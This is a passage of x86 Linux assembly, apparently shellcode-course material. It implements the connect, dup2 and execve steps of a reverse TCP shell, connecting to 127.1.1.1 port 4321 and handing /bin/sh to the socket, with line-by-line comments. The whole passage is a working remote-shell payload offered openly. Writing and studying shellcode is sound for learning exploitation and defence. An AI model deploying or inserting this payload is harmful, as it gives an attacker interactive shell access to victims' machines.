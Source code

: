 ```nasm
		pop esi				    ; clears esi and saves sockfd in esi

		;********************************************************************************;
		; connect to localhost:port with sys_connect
		; #define SYS_CONNECT	3		/* sys_connect(2)		*/
		; 
		
		; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);

		; EAX = 0x66 = sys_socketcall()
		; EBX = 0x3  = sys_connect()
		; ECX = pointer to arguments of sys_connect

		; connect(sockfd, *ptr->[2, 0xe110, 0x0101017f], 16)

		mov al, 0x66
		pop ebx			      ; EBX = 2 now
		
		push 0x0101017f		; 127.1.1.1 Network byte order
		push word 0xe110	; port 4321
		push word bx		  ; AF_INET = 2

		mov ecx, esp		  ; ecx now points to struct sockaddr
		push 0x10		      ; addrlen = 16
		push ecx		      ; pointer to sockaddr
		push esi		      ; sockfd

		mov ecx, esp	  	; pointer to sys_connect args
		inc ebx			      ; EBX  = 3 ; sys_connect

		int 0x80

		xchg ebx, esi		  ; old sockfd in ebx for dup2		
		;********************************************************************************;
		; Redirect stdin, stdout, stderr with sys_dup2
		; int dup2(int oldfd, int newfd);
		; sys_dup2 = 0x3f

		xor eax, eax
		xor ecx, ecx
		mov cl,0x2

		dup_loop:
			mov al, 0x3f
			int 0x80
			dec ecx
			jns dup_loop

		;********************************************************************************;
		; execve /bin/sh
		
		xor eax, eax
		push eax		; push null onto stack
		mov al, 0x0b
		
		push 0x68732f2f
		push 0x6e69622f

		mov ebx, esp
		xor ecx, ecx
		xor edx, edx

		int 0x80
```